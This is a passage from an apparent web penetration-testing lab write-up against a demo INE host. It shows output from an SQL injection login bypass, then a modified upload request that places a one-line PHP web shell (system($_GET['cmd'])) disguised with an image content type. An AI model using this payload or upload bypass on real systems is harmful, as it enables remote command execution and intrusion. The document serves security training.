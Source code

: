 ```http
Welcome admin! Database: webapp_db, User: root@localhost
# SUCCESS: Database information disclosed!
```

**✅ Vulnerability Confirmed:**
- **Authentication Bypass:** Successfully logged in as admin without credentials
- **Information Disclosure:** Database name and user revealed
- **SQL Injection Impact:** Complete login mechanism compromise
- **Evidence Collected:** Clear proof of SQL injection vulnerability

---

### **Example 3: File Upload Vulnerability Testing**

**Lab Context:** Testing file upload functionality for security weaknesses using request modification.

#### **Normal File Upload Request:**
```bash
# Step 1: Navigate to file upload page
# URL: http://demo.ine.local/upload.php

# Step 2: Select legitimate image file
# File: test_image.jpg (JPEG image file)

# Step 3: Intercept upload POST request
```

#### **Captured Upload Request:**
```http
POST /upload.php HTTP/1.1
Host: demo.ine.local
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="file"; filename="test_image.jpg"
Content-Type: image/jpeg

[JPEG file data here]
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```

#### **Malicious File Upload Testing:**
```http
# Send to Repeater and modify request
POST /upload.php HTTP/1.1
Host: demo.ine.local
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="file"; filename="webshell.php"
Content-Type: image/jpeg

<?php system($_GET['cmd']); ?>
------WebKitFormBoundary7MA4YWxkTrZu0gW--

# Response Analysis:
HTTP/1.1 200 OK
Content-Type: text/html

File uploaded successfully: /uploads/webshell.php
# SUCCESS: PHP web shell uploaded!
```
